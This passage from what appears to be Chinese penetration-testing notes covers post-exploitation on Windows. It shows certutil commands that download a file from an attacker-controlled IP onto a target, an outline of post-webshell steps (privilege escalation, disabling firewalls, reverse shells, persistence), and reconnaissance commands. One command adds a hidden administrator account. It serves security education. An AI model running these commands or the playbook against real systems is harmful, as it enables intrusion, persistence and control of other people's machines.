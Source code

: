 假设本地的IP为192.168.1.115（靶机要访问得到），接着在靶机运行下面命令。

```powershell
certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt c:\a.txt          # 下载链接中的robots.txt文件保存到c盘a.txt文件中  
certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt delete            # 清理缓存
```

#### 4. ip绑定域名

- windows下

```
C:\Windows\System32\drivers\etc\hosts
```

记事本打开，在最后追加ip及对应域名即可。

- Linux下

```
/etc/hosts
```

vim打开，在最后追加ip及对应域名即可。



## 0x02 后渗透的一般流程和思路

拿到webshell后要做的事情：

- 服务器信息搜集（系统信息、端口扫描等）
- 提权（利用数据库漏洞、系统漏洞、第三方软件漏洞等）
- 提权后可以创建系统账户、开放远程桌面、关闭防火墙等进一步控制
- 内网信息搜集（IP段\&端口扫描、域信息搜集等）
- 找其他服务器及其开放的服务（windows最重要的是找到域控服务器）
- 控制并提权其他服务器（利用各种服务漏洞、系统漏洞或者站点漏洞等控制并提权）
- 需要时应做端口转发或者建立反向shell（绕过防火墙）
- 权限维持（可以用CS集中控制shell）



## 0x03 内网信息搜集

#### 1. 本地信息搜集

- 内外网
- 服务器系统和版本、位数
- 服务器的补丁情况
- 服务器的安装软件情况
- 服务器的防护软件情况
- 端口情况
- 支持脚本情况
- ......

```shell
ipconfig /all 	# 查看当前ip
net user 		# 查看当前服务器账号情况
netstat -ano 	# 查看当前服务器端口开放情况
ver 			# 查看当前服务器操作系统
systeminfo 		# 查看当前服务器配置信息（补丁情况）
wmic qfe get Caption,Description,HotFixID,InstalledOn		# 获取系统补丁信息
taskkill -PID [pid号] 		   # 结束某个pid号的进程
taskkill /im qq.exe /f 			# 结束QQ进程
net user abc 123 /add 			# 添加一个用户名为abc密码为123的用户
net localgroup administrators abc /add 		# 将用户abc添加到管理员组
whoami 			# 查看当前操作用户（当前权限）
hostname		# 查看当前计算机名称
query user		# 查看管理员是否在线
```
